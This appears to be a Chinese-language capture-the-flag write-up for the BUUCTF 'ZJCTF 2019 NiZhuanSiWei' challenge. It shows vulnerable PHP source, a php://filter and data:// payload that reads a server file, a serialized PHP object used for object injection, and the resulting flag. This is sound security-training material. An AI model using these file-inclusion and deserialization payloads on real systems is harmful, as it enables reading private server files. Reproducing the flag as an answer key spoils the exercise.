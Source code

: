 ## BUUCTF- [ZJCTF 2019]NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

代码审计

- 变量text`data://text/plain,welcome to the zjctf`
- 变量file `useless.php`

Payload：

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php

得到一下内容，解码
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```

```php
<?php  
class Flag{  //flag.php  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}
$a = new Flag();
echo serialize($a);
?>  
    
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

![image-20240828225505051](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240828225505051.png)

```html
<br><h1>welcome to the zjctf</h1></br>  
<br>oh u find it </br>

<!--but i cant give it to u now-->

<?php

if(2===3){  
	return ("flag{f71dd2e8-6e14-4658-b738-e234f836682a}");
}

?>
<br>U R SO CLOSE !///COME ON PLZ
```

借助`password`来获得flag